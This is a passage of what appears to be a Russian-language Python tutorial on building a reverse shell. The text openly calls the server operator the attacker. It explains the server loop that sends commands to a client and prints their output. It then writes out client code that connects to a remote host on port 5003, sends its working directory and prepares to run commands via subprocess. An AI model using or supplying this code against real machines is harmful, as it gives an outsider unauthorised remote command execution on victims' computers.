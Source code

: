     # print output
    print(results)
В приведенном выше коде мы запрашиваем у пользователя сервера (т.е. злоумышленника) команду, которую он хочет выполнить на клиенте; мы отправляем эту команду клиенту и ожидаем, что выходные данные команды будут напечатаны на консоли.

Обратите внимание, что мы разбиваем выходные данные на результаты команд и текущий рабочий каталог. Это связано с тем, что клиент будет отправлять оба этих сообщения за одну операцию отправки.

Если команда «exit», просто выйдите из цикла и закройте соединения.

Связанные с: Как создать приложение чата на Python.

Клиентская сторона
Давайте теперь посмотрим код клиента, откроем новый файл и напишем:

import socket
import os
import subprocess
import sys

SERVER_HOST = sys.argv[1]
SERVER_PORT = 5003
BUFFER_SIZE = 1024 * 128 # 128KB max size of messages, feel free to increase
# separator string for sending 2 messages in one go
SEPARATOR = "<sep>"
Выше мы устанавливаем SERVER_HOST для передачи из аргументов командной строки, это IP-адрес или хост серверной машины. Если вы находитесь в локальной сети, то вы должны знать частный IP-адрес сервера с помощью команды ipconfig в Windows и ifconfig в Linux.

Обратите внимание, что если вы тестируете оба кода на одной машине, вы можете установить SERVER_HOST на 127.0.0.1, и он будет работать просто отлично.

Создадим сокет и подключимся к серверу:

# create the socket object
s = socket.socket()
# connect to the server
s.connect((SERVER_HOST, SERVER_PORT))
Помните, что сервер ожидает текущий рабочий каталог клиента сразу после подключения. Давайте тогда отправим его:

# get the current directory
cwd = os.getcwd()
s.send(cwd.encode())
Мы использовали функцию getcwd() из модуля os, эта функция возвращает текущий рабочий каталог. Например, если вы выполните этот код на рабочем столе, он вернет абсолютный путь к рабочему столу.
